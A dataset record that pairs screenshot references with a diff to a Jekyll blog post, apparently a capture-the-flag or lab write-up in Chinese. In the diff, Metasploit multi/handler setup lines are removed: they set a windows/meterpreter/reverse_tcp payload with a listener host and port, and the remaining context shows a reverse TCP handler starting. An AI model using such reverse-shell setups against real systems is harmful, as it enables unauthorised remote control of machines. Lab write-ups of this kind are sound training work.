

Before and after one commit to JWlovelearning/JWlovelearning.github.io, a Jekyll site: the page built from _posts/2023-12-5-post.md, in a window 1280 px wide and 900 px high, scrolled down 8699 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2023-12-5-post.md

````diff
--- a/_posts/2023-12-5-post.md
+++ b/_posts/2023-12-5-post.md
@@ -266,14 +266,7 @@ tips: 这里重启过目标，target ip：10.10.178.7
    + MSF生成meterpreter shell:
 
    ```
-   msf6 > use exploit/multi/handler
-   [*] Using configured payload generic/shell_reverse_tcp
-   msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
-   PAYLOAD => windows/meterpreter/reverse_tcp
-   msf6 exploit(multi/handler) > set lhost 10.11.61.123
-   lhost => 10.11.61.123
-   msf6 exploit(multi/handler) > set lport 4444
-   lport => 4444
+   ···
    msf6 exploit(multi/handler) > run
 
    [*] Started reverse TCP handler on 10.11.61.123:4444
````
